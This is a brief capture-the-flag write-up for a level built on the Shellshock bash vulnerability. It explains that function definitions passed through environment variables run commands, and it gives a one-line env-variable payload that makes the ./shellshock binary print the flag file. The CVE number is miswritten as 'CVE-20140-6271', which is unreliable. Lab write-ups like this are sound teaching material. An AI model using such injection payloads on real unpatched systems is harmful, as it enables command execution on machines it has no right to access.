 # Writeup #
This level is all about CVE-20140-6271

The CVE is a bash vulnerability that by exporting bash function as environment variable, you can execute commands.

```bash
env x='() { :;}; /bin/cat flag' ./shellshock
```

[LINK TO WIKIPEDIA ABOUT THE CVE] (https://en.wikipedia.org/wiki/Shellshock_(software_bug))
